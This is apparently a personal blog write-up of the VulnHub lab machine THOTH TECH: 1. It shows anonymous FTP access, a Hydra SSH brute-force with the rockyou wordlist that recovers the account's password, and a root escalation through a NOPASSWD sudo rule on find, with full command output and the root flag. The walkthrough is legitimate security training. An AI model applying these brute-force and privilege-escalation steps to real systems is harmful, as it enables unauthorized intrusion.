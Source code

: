 ```yaml
---
layout: post
title:  "Vulnhub: THOTH TECH: 1"
date:   2021-08-14 21:00:00 +1000
category: hacking
---
```


This is [THOTH TECH: 1](https://www.vulnhub.com/entry/thoth-tech-1,734/) from VulnHub.

There is no information about this box. I've been banging on a few and not getting them completed lately so not many writeups. This one was easy and will be brief. I did complete the latest HTB machine Previse the other day but no write-up on that.

## Ports
FTP, SSH and HTTP. 

## FTP
We have anonymous login, one file only and no upload:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/thoth]
└─# ftp 192.168.1.87                                                                                        
Connected to 192.168.1.87.
220 (vsFTPd 3.0.3)
Name (192.168.1.87:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -lash
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 65534    65534        4096 Jul 02 09:33 .
drwxr-xr-x    2 65534    65534        4096 Jul 02 09:33 ..
-rw-r--r--    1 0        0             110 Jul 02 09:33 note.txt
226 Directory send OK.
ftp> get note.txt
local: note.txt remote: note.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note.txt (110 bytes).
226 Transfer complete.
110 bytes received in 0.00 secs (52.2226 kB/s)
ftp> quit
221 Goodbye.
{% endhighlight %}

The file says:

>Dear pwnlab,  
My name is jake. Your password is very weak and easily crackable, I think change your password.

## HTTP
``
python3 /opt/dirsearch/dirsearch.py -u http://192.168.1.87
``

Dirsearch turns up only a few things, one of which is *wordpress* and another is *test.php* which only displays 'hi guys'. Could we break the wordpress password? Perhaps an LFI?

wpscan says:

>Scan Aborted: The URL supplied redirects to http://192.168.1.8/wordpress/. Use the --ignore-main-redirect option to ignore the redirection and scan the target, or change the --url option value to the redirected URL.

Okay then, let's use --ignore-main-redirect

``
wpscan -e --url http://192.168.1.87/wordpress --api-token GET_YOUR_OWN_ITS_FREE --ignore-main-redirect
``

>Scan Aborted: The remote website is up, but does not seem to be running WordPress.

Whatever. It's constantly trying to redirect to http://192.168.1.8. I can have a look at the page and sure enough there is blog post by *pwnlab*. What else can we try?

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/thoth]
└─# hydra -l pwnlab -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.87
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-14 07:02:38
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.1.87:22/
[STATUS] 160.00 tries/min, 160 tries in 00:01h, 14344240 to do in 1494:12h, 16 active
[22][ssh] host: 192.168.1.87   login: pwnlab   password: babygirl1
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-14 07:04:22
{% endhighlight %}

Ok then.

## GTFOBins root
Yes, that easy.

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/thoth]
└─# ssh pwnlab@192.168.1.87                                                                                                      255 ⨯
The authenticity of host '192.168.1.87 (192.168.1.87)' can't be established.
ECDSA key fingerprint is SHA256:Pw4/N+COKqnBrc/qv/3XYzmwPBCJYBwbDtx9hHOxdA8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.87' (ECDSA) to the list of known hosts.
pwnlab@192.168.1.87's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 1.0

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

66 updates can be installed immediately.
0 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Fri Jul  2 09:14:12 2021 from 192.168.1.11
pwnlab@thothtech:~$ sudo -l
Matching Defaults entries for pwnlab on thothtech:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwnlab may run the following commands on thothtech:
    (root) NOPASSWD: /usr/bin/find
pwnlab@thothtech:~$ sudo -u root /usr/bin/find . -exec /bin/sh \; -quit
# id;hostname;date
uid=0(root) gid=0(root) groups=0(root)
thothtech
Sat 14 Aug 2021 11:10:22 AM UTC
# cd /root
# ls
root.txt  snap
# cat root.txt
Root flag: d51546d5bcf8e3856c7bff5d201f0df6

good job :)
# 
{% endhighlight %}
